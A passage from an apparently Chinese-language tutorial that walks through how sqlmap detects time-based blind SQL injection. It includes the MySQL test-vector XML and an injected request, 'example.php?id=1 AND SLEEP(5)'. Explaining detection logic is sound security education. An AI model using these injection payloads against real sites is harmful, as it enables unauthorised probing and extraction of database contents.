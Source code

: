 在上述漏洞场景中，进行时间盲注案例分析。

首先看一下原始请求：

```text
example.php?id=1
```

![](../../.gitbook/assets/sqlmap45.jpg)

可以成功注入的测试向量：

```text
<test>
    <title>MySQL >= 5.0.12 AND time-based blind</title>
    ...
    <vector>AND [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])</vector>
    <request>
        <payload>AND SLEEP([SLEEPTIME])</payload>
    </request>
    <response>
        <time>[SLEEPTIME]</time>
    </response>
    <details>
        <dbms>MySQL</dbms>
        <dbms_version> >= 5.0.12</dbms_version>
    </details>
</test>
```

在进入正式测试之前，由于响应延迟判断技术需要大量的正常响应作为高斯分布建模的数据，因此sqlmap会发送30次原始请求作为数据源。

根据测试向量，将`[SLEEPTIME]`随机生成一个数字，生成的数据包如下：

```text
example.php?id=1 AND SLEEP(5)
```

![](../../.gitbook/assets/sqlmap46.jpg)
